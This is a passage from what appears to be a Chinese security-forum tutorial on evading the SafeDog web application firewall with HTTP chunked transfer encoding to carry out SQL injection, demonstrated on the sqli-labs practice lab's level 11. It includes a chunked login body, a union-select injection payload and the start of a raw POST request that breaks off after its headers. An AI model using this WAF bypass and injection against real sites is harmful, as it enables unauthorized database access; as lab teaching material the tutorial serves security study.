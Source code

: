 ```php
1
&
4
pass
2
wd
1
=
4
admi
1
n
1
&
4
subm
2
it
1
=
4
Subm
2
it
0

```

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-80590f978f9764647c5dd3aafaa2379bbf7a6efa.png)

说明是可以识别分块传输的东西，那么我们就可以构造payload来看是否可以绕过waf。

绕过安全狗的sql注入：
============

这里先解决一下绕过安全狗的方式，在常见的方式中，我们都采用垃圾字符填充的方式来绕过安全狗，虽然效果很好，但是较为复杂，也容易出现被狗咬伤的情况，所以为了解决这一现状，小秦同学翻阅之后发现了分块传输的方式来绕过安全狗。但是分块传输目前来看只能适用于post请求。get请求还是比较难说。

### 以sql-labs为例：

在sqli-labs的第十一关，我们发现了可以用post请求。先正常看看过滤哪些字符，这里开门见山，直接把'union select (database()),2#。这个东西进行了过滤  
![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-7114da65711595b0780c0740326f813194bc1b53.png)  
咱们可以尝试使用分块传输的方式来进行绕过。这里在请求头中添加。

```php
Transfer-Encoding: chunked
这个东西，然后进行分块即可。
```

#### 读取数据库名

```php
POST /sqli-labs-master/Less-11/ HTTP/1.1
Host: 192.168.172.161
Content-Length: 251
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.172.161
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.172.161/sqli-labs-master/Less-11/
Accept-Encoding: gzip, deflate
```